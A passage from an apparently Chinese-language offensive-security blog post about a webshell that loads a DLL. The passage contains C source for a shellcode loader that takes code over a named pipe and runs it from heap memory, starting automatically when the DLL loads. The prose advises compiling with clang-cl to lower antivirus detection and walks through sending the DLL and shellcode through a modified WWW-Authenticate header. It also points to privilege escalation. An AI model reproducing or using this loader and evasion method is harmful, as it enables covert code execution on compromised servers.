    PVOID Mptr = HeapAlloc(hHep, 0, size);

    RtlCopyMemory(Mptr, code, size);
    DWORD dwThreadId = 0;
    HANDLE hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)Mptr, NULL, NULL, &dwThreadId);
    if (hThread == INVALID_HANDLE_VALUE) {
        return FALSE;
    }
    return TRUE;
    // WaitForSingleObject(hThread, INFINITE);
}

// 处理管道通信
DWORD HandleCode(VOID) {
    HANDLE hPipe;
    DWORD dwError;
    DWORD dwLen;

    // 创建命名管道
    hPipe = CreateNamedPipe(
        PIPE_NAME,
        PIPE_ACCESS_DUPLEX,
        PIPE_WAIT | PIPE_TYPE_MESSAGE | PIPE_TYPE_BYTE | PIPE_READMODE_MESSAGE,
        PIPE_UNLIMITED_INSTANCES,
        BUFF_SIZE + 1,
        BUFF_SIZE + 1,
        0,
        NULL);

    // 检查管道是否创建成功
    if (hPipe == INVALID_HANDLE_VALUE) {
        dwError = GetLastError();
        wprintf(L"[-] Create Pipe Error : %d \n", dwError);
        return dwError;
    }
    wprintf(L"[+] Create Pipe Success : %s \n", PIPE_NAME);

    // 循环等待客户端连接
    while (true)
    {   
        // 连接管道
        if (ConnectNamedPipe(hPipe, NULL) > 0) {
            CHAR szBuffer[BUFF_SIZE];
            BYTE  bMethod;

            ZeroMemory(szBuffer, BUFF_SIZE);
            wprintf(L"[+] Client Connected...\n");

            // 读取从管道接收到的指令
            ReadFile(hPipe, &bMethod, 1, &dwLen, NULL);

            // 根据接收到的指令进行加载shellcode
            if (bMethod == LOAD_SHELLCODE) {
                ReadFile(hPipe, szBuffer, BUFF_SIZE, &dwLen, NULL);
                CheckSuccessAndSendMsg(ExecuteShellCode(szBuffer, dwLen), hPipe);
            }

            // 与管道断开连接
            DisconnectNamedPipe(hPipe);
        }
    }

}

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)HandleCode, NULL, 0, &dwThreadId);
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

此处DLL的编写值得学习的地方主要是对命名管道的灵活运用，命名管道是一个先进先出的结构，也就是说第一个写入的字节将是第一个被读取的，当使用`ReadFile`函数从命名管道读取数据时，被读取的数据就会从管道中消失

比如在webshell的一次请求中，将0x01(操作指令)和shellcode写入管道中，第一次读取的内容会是0x01，第二次读取的内容会是shellcode

除此之外，我建议编译时将VisualStudio的平台工具集修改为LLVM(clang-cl)，这样能够减小静态查杀率

	


### 实例演示

首先对生成的dll文件进行Base64编码




抓取webshell的请求包，将`WWW-Authenticate`字段值修改为`load`表示加载dll，提交的内容填上dll base64编码后的内容

	


在第二次发给webshell的请求中，将`WWW-Authenticate`的值修改为shellcode，提交的内容填上shellcode的base64编码，这样表示加载shellcode

	


上线的进程是javaw，是一个普通权限，通常tomcat是以local service权限运行的，倾旋师傅的文章里提到，将土豆提权的功能写入dll中以此实现shellcode执行时是上线管理员的权限，不过我更倾向于在CobaltStrike的bof去实现吧


# 0x3.php马

待定			


# 参考文章

- https://paper.seebug.org/1953/#0x06-java


​	


​			

​		

​	